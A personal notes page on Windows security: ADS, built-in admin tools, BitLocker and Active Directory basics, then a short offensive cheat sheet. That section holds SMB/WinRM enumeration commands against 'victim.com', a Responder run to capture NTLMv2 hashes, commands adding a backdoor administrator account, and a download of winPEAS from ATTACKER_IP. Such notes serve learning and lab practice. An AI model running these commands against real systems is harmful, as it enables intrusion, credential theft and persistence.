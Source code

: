 # Notes windows

### Alternate Data Streams (ADS)

Alternate Data Streams (ADS) is a file attribute specific to Windows NTFS (New Technology File System).

Every file has at least one data stream (`$DATA`), and ADS allows files to contain more than one stream of data. Natively [Window Explorer](https://support.microsoft.com/en-us/windows/what-s-changed-in-file-explorer-ef370130-1cca-9dc5-e0df-2f7416fe1cb1) doesn't display ADS to the user. There are 3rd party executables that can be used to view this data, but [Powershell](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.1) gives you the ability to view ADS for files.

From a security perspective, malware writers have used ADS to hide data.

Not all its uses are malicious. For example, when you download a file from the Internet, there are identifiers written to ADS to identify that the file was downloaded from the Internet.

To learn more about ADS, refer to the following link from MalwareBytes [here](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/).&#x20;

**Bonus**: If you wish to interact hands-on with ADS, I suggest exploring Day 21 of [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2).

### Stuff

**Local User and Group Management**. Right-click on the Start Menu and click **Run**. Type `lusrmgr.msc`

{% embed url="https://www.howtogeek.com/405806/windows-task-manager-the-complete-guide/" %}

The **System Configuration** utility (`MSConfig`)&#x20;

The **Computer Management** (`compmgmt.msc`)

the **System Information** (`msinfo32`) tool

&#x20;**Resource Monitor** (`resmon`)

&#x20;**Registry Editor** (`regedit`).

**Tip**: Another way to access Windows Update is from the Run dialog box, or CMD, by running the command `control /name Microsoft.WindowsUpdate`.

[https://msrc.microsoft.com/update-guide](https://msrc.microsoft.com/update-guide) (cve and stuff)

_BitLocker Drive Encryption is a data protection feature that integrates with the operating system and addresses the threats of data theft or exposure from lost, stolen, or inappropriately decommissioned computers_

_BitLocker provides the most protection when used with a Trusted Platform Module (TPM) version 1.2 or later. The TPM is a hardware component installed in many newer computers by the computer manufacturers. It works with BitLocker to help protect user data and to ensure that a computer has not been tampered with while the system was offline_

Volume Shadow Copy Service (VSS) coordinates the required actions to create a consistent shadow copy (also known as a snapshot or a point-in-time copy) of the data that is to be backed up.

{% embed url="https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal" %}

{% embed url="https://support.microsoft.com/en-us/windows/learn-about-windows-hello-and-set-it-up-dae28983-8242-bb2a-d3d1-87c9d265a5f0" %}

_A_ttackers use built-in Windows tools and utilities in an attempt to go undetected within the victim environment.  This tactic is known as Living Off The Land. Refer to the following resource [here](https://lolbas-project.github.io/) to learn more about this. \
\


### Active Directory

The server that runs the Active Directory services is known as a **Domain Controller (DC)**.

**Active Directory Domain Service (AD DS)**. This service acts as a catalogue that holds the information of all of the "objects" that exist on your network. -  users, groups, machines, printers, shares and many others.&#x20;

_**Users**_

Users are one of the objects known as **security principals**, meaning that they can be authenticated by the domain and can be assigned privileges over **resources** like files or printers. You could say that a security principal is an object that can act upon resources in the network.

Users can be used to represent two types of entities:

* **People**
* **Services :** you can also define users to be used by services like IIS or MSSQL. Every single service requires a user to run, but service users are different from regular users as they will only have the privileges needed to run their specific service.

_**Machines**_

Machines are another type of object within Active Directory; for every computer that joins the Active Directory domain, a machine object will be created. Machines are also considered "security principals" and are assigned an account just as any regular user. This account has somewhat limited rights within the domain itself.

The machine accounts themselves are local administrators on the assigned computer, they are generally not supposed to be accessed by anyone except the computer itself, but as with any other account, if you have the password, you can use it to log in.

**Note:** Machine Account passwords are automatically rotated out and are generally comprised of 120 random characters.

Identifying machine accounts is relatively easy. They follow a specific naming scheme. The machine account name is the computer's name followed by a dollar sign. For example, a machine named `DC01` will have a machine account called `DC01$`.

_**Security Groups**_

Security groups are also considered security principals and, therefore, can have privileges over resources on the network.

Groups can have both users and machines as members. If needed, groups can include other groups as well.

Several groups are created by default in a domain that can be used to grant specific privileges to users. As an example, here are some of the most important groups in a domain:

| **Security Group** | **Description**                                                                                                                                           |
| ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Domain Admins      | Users of this group have administrative privileges over the entire domain. By default, they can administer any computer on the domain, including the DCs. |
| Server Operators   | Users in this group can administer Domain Controllers. They cannot change any administrative group memberships.                                           |
| Backup Operators   | Users in this group are allowed to access any file, ignoring their permissions. They are used to perform backups of data on computers.                    |
| Account Operators  | Users in this group can create or modify other accounts in the domain.                                                                                    |
| Domain Users       | Includes all existing user accounts in the domain.                                                                                                        |
| Domain Computers   | Includes all existing computers in the domain.                                                                                                            |
| Domain Controllers | Includes all existing DCs on the domain.                                                                                                                  |

You can obtain the complete list of default security groups from the [Microsoft documentation](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups).

#### Powershell commands

```powershell
Set-ADAccountPassword sophie -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
Set-ADUser -ChangePasswordAtLogon $true -Identity sophie -Verbose
```

## Enumeration

### Samba

<pre class="language-bash"><code class="lang-bash"><strong># Enumerate shares
</strong><strong>crackmapexec smb victim.com -u USERNAME -p 'password#1234' --shares
</strong><strong># Get password policy
</strong>crackmapexec smb victim.com -u USERNAME -p 'password#1234' --pass-pol

smbmap -u 'USERNAME' -p 'password#1234'  -H victim.com  -r

smbclient -U USERNAME  //victim.com/Shared

crackmapexec winrm victim.com  -u USERNAME -p 'password'
evil-winrm -i windcorp.thm -u USERNAME -p 'password'</code></pre>

### Networking

#### Responder

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

```bash
sudo responder -I tun0
```

\--> Get NTLMv2 Hash to crack it afterwards

## Post Exploitation

#### system

<pre class="language-powershell"><code class="lang-powershell"><strong># all groups the user is part of and special privilege
</strong>whoami /all
# Reset password
net user USERNAME PASSWORD
# Create admin user
net user USERNAME PASSWORD /add;net localgroup Administrators USERNAME /add
# List of AD members
Get-ADGroupMember -Identity 'Account Operators' -Recursive | select name
</code></pre>

#### privilege escalation

```powershell
invoke-webrequest -Uri 'http://ATTACKER_IP:8000/winPEAS.bat' -OutFile winpeas.bat
```

#### psexec

{% embed url="https://www.sans.org/blog/psexec-python-rocks/" %}

